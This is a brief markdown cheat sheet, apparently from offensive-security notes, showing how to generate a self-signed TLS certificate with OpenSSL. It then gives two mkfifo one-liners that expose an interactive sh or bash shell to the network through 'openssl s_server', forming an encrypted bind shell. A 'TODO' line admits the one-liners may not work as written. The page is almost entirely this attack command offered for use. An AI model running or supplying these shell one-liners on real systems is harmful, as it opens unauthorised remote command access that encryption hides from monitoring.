 # OpenSSL

- Generate TLS certificate

```
$ openssl req -x509 -newkey rsa:4096 -keyout private.key -out certificate.crt -days 365 -nodes
```

- Execute one-liner

TODO: Modify to ensure it works

```
$ mkfifo /tmp/f; /bin/sh -i < /tmp/f 2>&1 | openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>; rm /tmp/f

$ mkfifo /tmp/f; /bin/bash -i < /tmp/f 2>&1 | openssl s_server -quiet -key private.key -cert certificate.crt -port <PORT>; rm /tmp/f
```